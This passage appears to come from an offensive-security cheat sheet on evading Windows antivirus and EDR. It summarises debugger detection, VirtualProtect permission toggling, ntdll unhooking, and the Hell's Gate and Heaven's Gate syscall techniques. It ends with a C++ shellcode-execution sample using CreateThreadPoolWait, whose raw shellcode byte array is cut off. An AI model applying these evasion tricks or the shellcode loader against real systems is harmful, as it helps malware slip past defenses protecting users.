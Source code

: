**ASM way**

Try to make an INT 3 call (ASM) : it's an equivalent to a software breakpoint, which will trigger a debugger. There are so many other ways to detect any debugger, a lot of them are compiled at : https://anti-debug.checkpoint.com/

## VirtualProtect technique

By using some tricks with `VirtualProtect()` you can easily avoid been flagged in-memory : change between `PAGE_EXECUTE_READWRITE` and `PAGE_READWRITE` (less suspicious) to avoid triggering your favorite AV.


## Fresh Copy Unhook

Avoid hooks by replacing the "hooked" ntdll by a fresh one, directly mapped from the disk.

Code sample : // to add

## Hells Gate

To avoid using hardcoded syscalls, Hell's Gate (Hells Gates ?) retrieve them dynamically by parsing EAT (compare memory bytes to syscall opcodes). The original Poc has been made by the great VX-Underground team, and can be found here : https://papers.vx-underground.org/papers/Windows/Evasion%20-%20Systems%20Call%20and%20Memory%20Evasion/Dynamically%20Retrieving%20SYSCALLs%20-%20Hells%20Gate.7z

Another one example : https://github.com/am0nsec/HellsGate

## Heavens Gate

Use Wow64 to inject 64 bits payload in 32 bits loader. Can be useful to bypass some AV/EDRs because Wow64 will avoid you to be catch in userland.

The most known version of this technique has been created by the MSF team, see their awesome work here : https://github.com/rapid7/metasploit-framework/blob/21fa8a89044220a3bf335ed77293300969b81e78/external/source/shellcode/windows/x86/src/migrate/executex64.asm

## CreateThreadPoolWait

By abusing CreateThreadPoolWait(), which can accept a pointer to a callback function, you can execute your shellcode through this proc. Lot of similar techniques (using a callback function pointer) are available at : http://ropgadget.com/posts/abusing_win_functions.html

Example : 

```cpp
//code from https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait

#include <windows.h>
#include <threadpoolapiset.h>

unsigned char shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
```